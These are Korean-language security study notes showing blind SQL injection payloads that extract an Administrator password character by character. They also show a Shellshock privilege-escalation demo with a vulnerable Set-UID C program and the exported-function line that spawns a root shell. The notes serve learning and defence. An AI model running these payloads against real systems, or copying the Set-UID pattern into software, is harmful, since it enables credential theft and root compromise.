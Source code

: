 ### Blind SQL Injection
> SQL Injection 공격을 통해, DB에 대한 정보를 탈취하는 기법

1. Conditional Response
```sql
/* Password의 첫번째 문자가 'm'보다 큰지 확인 */ 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
/* Password의 첫번째 문자가 't'보다 큰지 확인 */
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
2. SQL Error - Divide by Zero

```sql
/* Password의 첫번째 문자가 'm'보다 크면 오류 발생 */
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) >
'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

3. SQL Error  - Cast
```sql
/* Password의 첫번째 문자가 'm'보다 크면 오류 발생 */
CAST((SELECT example_column FROM example_table) AS int)
```

4. Time Delay
```sql
/* Password의 첫번째 문자가 'm'보다 크면 딜레이 발생 */
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND
SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'-
```

## ShellShock Attack
> bash 쉘의 취약점을 이용하여, 공격하는 기법

### Set-UID Programs
> Set-UID root 권한을 가진 프로그램이 system함수를 호출할 때, 공격하는 기법
- RUID : Real User ID : 프로그램을 실행한 사용자의 권한
- EUID : Effective User ID : 프로그램이 실행되는 권한
- Set-UID Program : 사용자가 프로그램을 root 권한으로 실행할 수 있도록 하는 프로그램, RUID와 EUID가 다름, 
- Set-UID Program을 만드는 방법
  ```bash
  $ sudo chown root vul
  $ sudo chmod 4755 vul
  $ ls -l vul
  -rwsr-xr-x 1 root root 1234 Mar 11 12:00 vul # s가 존재
  ```
- 취약한 C 프로그램 (vul : Set-UID program)
  ```c
  #include <stdio.h>
  void main() {
    setuid(geteuid()); // root 권한을 가진 사용자로 설정
    system("/bin/ls -l"); // ls -l 명령어 실행
  }
  ```
- 공격 명령어
  ```bash
  $ export foo='() { echo "hello"; }; /bin/sh'
  $ ./vul
  ```
